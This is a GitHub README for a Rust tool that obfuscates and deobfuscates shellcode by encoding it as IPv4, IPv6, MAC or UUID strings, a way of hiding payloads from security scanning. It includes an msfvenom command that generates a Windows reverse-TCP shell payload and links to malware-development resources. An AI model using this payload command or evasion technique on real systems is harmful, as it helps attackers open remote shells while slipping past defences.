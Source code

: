 ## Shellcode Obfuscation and Deobfuscation Technique

With this code you can obfuscate and deobfuscate shellcode using Ipv4, Ipv6, MAC, UUiD formats.

## Usages

#### Due to security reasons. Im removing the payload.bin. You generate the .bin on you own ..!

Example: `msfvenom -p windows/shell/reverse_tcp lhost=eth0 lport=4444 -f raw -o payload.bin`

### Command Format

```
cargo run -- -f <file> -t <technique> -o <operation>
```

### simply run the program to view the usages 

```
cargo run
```
![cargo run](images/cargo_run.png)


### To obfuscate the payload.

```
cargo run -- -f .\payload.bin -t ipv4 -o obfuscate
```
![obfuscate ipv4](images/obfuscating_ipv4.png)

### To Deobfuscate the paylaod 

```
cargo run -- -f .\obfuscated_ipv4.txt -t ipv4 -o deobfuscate
```
![deobfuscate ipv4](images/deobfuscating_ipv4.png)

## ALL USAGES

### Obfuscation Commands

Obfuscate Using IPv4

```
cargo run -- -f .\payload.bin -t ipv4 -o obfuscate
```

Obfuscate Using IPv6

```
cargo run -- -f .\payload.bin -t ipv6 -o obfuscate
```

Obfuscate Using MAC

```
cargo run -- -f .\payload.bin -t mac -o obfuscate
```

Obfuscate Using UUID

```
cargo run -- -f .\payload.bin -t uuid -o obfuscate
```

### Deobfuscation Commands

Deobfuscate Using IPv4

```
cargo run -- -f .\obfuscated_ipv4.txt -t ipv4 -o deobfuscate
```

Deobfuscate Using IPv6

```
cargo run -- -f .\obfuscated_ipv6.txt -t ipv6 -o deobfuscate

```

Deobfuscate Using MAC

```
cargo run -- -f .\obfuscated_mac.txt -t mac -o deobfuscate
```

Deobfuscate Using UUID

```
cargo run -- -f .\obfuscated_uuid.txt -t uuid -o deobfuscate
```

## Resources Used

Thanks for the Wonderful Content and Resource by <b><a href="https://maldevacademy.com/" > Maldev Academy</a></b>.

For more Malware POC and codes visit <b><a href="https://github.com/Whitecat18/Rust-for-Malware-Development.git" > Rust for Malware Development</a></b> Repository. 

By @<a href="https://twitter.com/5mukx" >5mukx </a>

